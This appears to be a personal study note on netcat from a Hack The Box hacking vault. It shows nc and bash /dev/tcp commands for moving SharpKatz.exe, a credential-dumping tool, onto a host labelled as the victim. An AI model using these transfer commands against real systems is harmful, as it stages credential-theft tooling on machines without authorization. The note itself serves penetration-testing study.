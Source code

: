 ```yaml
---
title:  "Netcat"
tags:
  - hacking
  - hacking/htb
programming-languagues:
created: 2022-07-11
---
```

Networking utility for reading from and writing to network connections using TCP or UDP.

## Listening
```bash
victim@target:~$ nc -l -p 8080 > SharpKatz.exe
```

```bash
victim@target:~$ cat < /dev/tcp/192.168.0.200/8080 > SharpKatz.exe
```

## Sending
```bash
me@hanato:~$ nc -q 0 192.168.0.200 8080 < SharpKatz.exe
```